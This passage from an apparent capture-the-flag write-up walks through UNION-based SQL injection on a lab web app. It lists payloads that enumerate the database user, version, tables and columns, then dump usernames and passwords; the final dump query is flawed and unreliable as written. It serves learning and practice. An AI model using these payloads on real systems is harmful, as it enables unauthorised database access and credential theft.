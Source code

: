 <div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/images/posts/2020-06-02-hackme-ctf-writeup/4-SQL-database-enumeration.png">
    </div>
</div>


 Now that I knew there were only 3 columns, I could test to see if any fields were injectable. Looking at the output of the "union all select 1,2,3", it seemed that the very last column is injectable because the output was "2". 


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/images/posts/2020-06-02-hackme-ctf-writeup/5-SQLi-proof.png">
    </div>
</div>


 The next step in enumerating the database is to test different injectable commands to gather additional information such as tables names, columns within those tables, database version, etc. To gather that information, I ran the following commands. 

```
# database user permission
' or 1=1 UNION SELECT 1,user(),3;#
# database version
' or 1=1 UNION SELECT 1,@@version,3;#
# database type
' or 1=1 UNION SELECT 1, database(),3;#
# table names
' or 1=1 UNION SELECT 1,group_concat(TABLE_NAME,0x0a),3 from information_schema.tables where table_schema=database();#
# columns in user table
' or 1=1 UNION SELECT 1,group_concat(column_name,0x0a),3 from information_schema.columns where table_name='users';#
```

 Using these commands, I was able to determine the database had two tables for books and users. I used the column name enumeration command to see what information was available. The output showed usernames and passwords were stored in the users table. 


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/images/posts/2020-06-02-hackme-ctf-writeup/6-SQLi-enumeration-usercolumns.png">
    </div>
</div>

 Finally, I dumped all the usernames and passwords from the database with the following command. 


```
or 1=1 UNION SELECT 1,group_concat(name,0x0a,password ),3 from information_schema.tables where table_name='users';#
```
<br/>
### Hash Cracking
